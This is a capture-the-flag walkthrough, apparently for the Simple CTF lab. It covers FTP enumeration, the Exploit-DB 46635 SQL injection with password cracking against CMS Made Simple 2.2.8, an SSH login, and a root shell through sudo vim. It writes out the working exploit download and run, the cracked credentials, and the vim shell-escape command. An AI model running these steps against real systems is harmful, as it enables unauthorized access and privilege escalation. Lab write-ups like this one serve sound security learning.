

## FTP -  This was a Rabbit Hole :/
- According to [this forum](https://forum.cmsmadesimple.org/viewtopic.php?f=8&t=74971), version numbers may be found in either root/version.php or lib/version.php
- From our port scan above we should be able to log in with the user FTP
	```
	telnet [Simple CTF IP] 21
	user FTP
	PASV
	LIST
	```
	Unfortunately, LIST times out and no files are returned. Doing some googling, we realize that this may be a firewall issue, which we have very little control over.
---
## Exploiting CMS Made Simple
- A quick google of CMS Made Simple 2.2.8 returns this [SQLi vulnerability](https://www.exploit-db.com/exploits/46635)
- We can download the exploit onto our machine with `wget https://www.exploit-db.com/raw/46635 -O 46635.py` 
- Using the usage instructions, we run the exploit and attempt to crack the password with `python 46635.py -u http://10.10.4.13/simple --crack -w /usr/share/wordlists/rockyou.txt`
This nets us a #user of ==mitch== and a cracked #password of ==secret==
## Logging in with SSH
- We can not try the creds for mitch with `ssh -p 2222 mitch@[Simple CTF IP]`
This nets us the user flag!
- We also notice that there another user in the home directory
## Privilege Escalation Enumeration
- Running `sudo -l` reveals that we have no password sudo access to VIM
According to [GTFOBins](https://gtfobins.github.io/gtfobins/vim/?source=post_page---------------------------), we can break out of the shell with `sudo vim -c ':!/bin/sh'`
This gets us the root flag!
